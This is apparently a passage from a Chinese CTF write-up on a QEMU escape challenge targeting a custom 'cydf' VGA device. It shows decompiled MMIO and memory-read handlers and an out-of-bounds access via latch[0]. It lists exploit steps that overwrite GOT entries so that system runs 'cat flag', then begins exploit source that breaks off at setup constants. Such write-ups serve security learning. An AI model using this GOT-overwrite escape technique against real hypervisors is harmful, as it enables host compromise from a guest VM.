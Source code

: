 
这里有两种办法去调用`cydf_vga_ioport_write`：

一是访问`febc1000-febc1fff`地址空间，触发`cydf_mmio_write`从而实现对 `cydf_vga_ioport_write`的调用。（我们使用的是这种）

```c
void __fastcall cydf_mmio_write(CydfVGAState *opaque, hwaddr addr, uint64_t val, unsigned int size)
{
  if ( addr > 0xFF )
    cydf_mmio_blt_write(opaque, addr - 0x100, val);
  else
    cydf_vga_ioport_write(opaque, addr + 0x10, val, size);
}
```

二是利用PMIO，out类指令以及in类指令直接对相应的0x3b0 - 0x3df端口进行访问

还需要说明的是可以通过`cydf_vga_mem_read`函数来设置`opaque->latch[0]`，`latch[0]`刚好是`vs`越界访问到的元素。

```c
uint64_t __fastcall cydf_vga_mem_read(CydfVGAState *opaque, hwaddr addr, uint32_t size)
{
  uint32_t v3; // eax
  bool v4; // zf
  uint64_t result; // rax
  char *v6; // rcx
  unsigned int v7; // edx
  int v8; // edx

  v3 = opaque->latch[0];
  if ( !(_WORD)v3 ) // 注意此处，是!(word)v3，也就是说检测是以字（16位，2个字节）为单位
  {
    v4 = (opaque->vga.sr[7] & 1) == 0;
    opaque->latch[0] = addr | v3;
    if ( !v4 )
      goto LABEL_3;
    return vga_mem_readb(&opaque->vga, addr);
  }
  v4 = (opaque->vga.sr[7] & 1) == 0;
  opaque->latch[0] = (_DWORD)addr << 16;
}
```

### 利用

1. 利用`cydf_vga_mem_read`函数来设置opaque->latch[0]，将其设置为bss段，从而为vs[0x10]创建一个指针（以绕过检测）
2. 在bss段里面写入cat flag
3. 把bss段地址写入qemu_logfile
4. 把vfprintf函数的got表覆盖为system函数的plt地址
5. 把printf_chk函数got表覆盖为qemu_log函数的地址
6. 利用cmd为2时，触发`printf_chk`，最终实现system函数的调用，同时参数也可控。

```c
//
// Created by zhz on 2020/10/23.
//
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>

size_t mmio_addr = 0xfebc1000;
size_t mmio_size = 0x1000;
size_t vga_addr = 0xa0000;
```